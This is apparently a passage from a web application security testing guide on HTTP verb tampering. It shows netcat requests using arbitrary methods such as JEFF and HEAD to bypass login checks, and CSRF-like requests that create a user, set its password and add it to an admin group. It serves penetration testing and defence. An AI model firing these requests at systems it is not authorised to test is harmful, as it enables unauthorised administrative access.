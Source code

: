 More detailed information, together with code samples, can be found in the original whitepaper written by Jeremiah Grossman.

### Testing for Arbitrary HTTP Methods

Find a page to visit that has a security constraint such that it would normally force a 302 redirect to a log in page or forces a log in directly. The test URL in this example works like this, as do many web applications. However, if a tester obtains a “200” response that is not a log in page, it is possible to bypass authentication and thus authorization.

```bash
$ nc www.example.com 80
JEFF / HTTP/1.1
Host: www.example.com

HTTP/1.1 200 OK
Date: Mon, 18 Aug 2008 22:38:40 GMT
Server: Apache
Set-Cookie: PHPSESSID=K53QW...
```

If the framework or firewall or application does not support the “JEFF” method, it should issue an error page (or preferably a 405 Not Allowed or 501 Not implemented error page). If it services the request, it is vulnerable to this issue.

If the tester feels that the system is vulnerable to this issue, they should issue CSRF-like attacks to exploit the issue more fully:

- FOOBAR /admin/createUser.php?member=myAdmin
- JEFF /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
- CATS /admin/groupEdit.php?group=Admins&member=myAdmin&action=add

With some luck, using the above three commands - modified to suit the application under test and testing requirements - a new user would be created, a password assigned, and made an administrator.

### Testing for HEAD Access Control Bypass

Find a page to visit that has a security constraint such that it would normally force a 302 redirect to a log in page or forces a log in directly. The test URL in this example works like this, as do many web applications. However, if the tester obtains a “200” response that is not a login page, it is possible to bypass authentication and thus authorization.

```bash
$ nc www.example.com 80
HEAD /admin HTTP/1.1
Host: www.example.com

HTTP/1.1 200 OK
Date: Mon, 18 Aug 2008 22:44:11 GMT
Server: Apache
Set-Cookie: PHPSESSID=pKi...; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: adminOnlyCookie1=...; expires=Tue, 18-Aug-2009 22:44:31 GMT; domain=www.example.com
Set-Cookie: adminOnlyCookie2=...; expires=Mon, 18-Aug-2008 22:54:31 GMT; domain=www.example.com
Set-Cookie: adminOnlyCookie3=...; expires=Sun, 19-Aug-2007 22:44:30 GMT; domain=www.example.com
Content-Language: EN
Connection: close
Content-Type: text/html; charset=ISO-8859-1
```
